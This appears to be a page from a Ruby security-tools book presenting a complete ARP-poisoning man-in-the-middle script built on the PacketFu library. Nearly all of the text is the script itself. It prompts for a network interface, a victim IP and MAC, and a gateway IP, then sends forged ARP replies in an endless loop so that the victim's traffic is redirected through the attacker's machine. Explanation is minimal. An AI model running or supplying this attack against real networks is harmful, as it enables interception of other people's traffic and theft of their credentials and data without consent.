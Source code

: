 # Man in the Middle Attack (MiTM)

Example of a more elaborate MiTM attack using ARP Poisoning with PacketFU and socket using source code in this book as base.

```ruby
require 'packetfu'
require 'socket'

def poison(lip, lmac, vip, vmac, rip, int_name)
   puts "Sending ARP Packet Spoof Every 29 Seconds…"
   x = PacketFu::ARPPacket.new(:flavor => "Linux")
     x.eth_saddr = lmac  # your MAC Address
     x.eth_daddr = vmac  # victim MAC Address
     x.arp_saddr_mac = lmac # your MAC Address
     x.arp_daddr_mac = vmac # victim MAC Address
     x.arp_saddr_ip = rip # Router IP Address
     x.arp_daddr_ip=  vip # Victim IP Address
     x.arp_opcode = 2 # ARP Reply Code
   while true do # Infinite Loop created
     x.to_w(int_name) # Put Packet to wire  interface
      sleep(29) # interval in seconds, change for your preference 
   end
end

def get_ifconfig(int_name)
    int_config = PacketFu::Utils.whoami?(:iface => int_name)
    return int_config[:ip_saddr], int_config[:eth_saddr]
end

def get_victim_info
   puts "enter victim ip"
   vip = gets
   puts "enter victim MAC"
   vmac = gets
   puts "enter gateway ip"
   rip = gets
   return vip, vmac, rip
end

# need to be root to run this
unless Process.uid.zero?
  puts "you need to run this script as root!"
  exit 0
end

#select interface to use and start setup
interfaces = Socket.getifaddrs.map { |i| i.name }.compact.uniq
list = Hash[(0...interfaces.size).zip interfaces]
list.each do |l, v|
  puts "#{l} #{v}"
end

puts "enter interface number to use on MITM"
int_number = gets
if  list.key?(int_number.to_i)
   lip, lmac = get_ifconfig(list.fetch(int_number.to_i))
   vip, vmac, rip = get_victim_info()
   poison(lip, lmac, vip, vmac, rip, list.fetch(int_number.to_i))
else
  puts "Selected interface does not exists"
end
```

Source: [Ruby-MiTM](https://github.com/ChrisFernandez/ruby-mitm "Ruby-mitm") and Rubyfu [ARP Spoofing topic](/module_0x3__network_kung_fu/arp_spoofing.md).

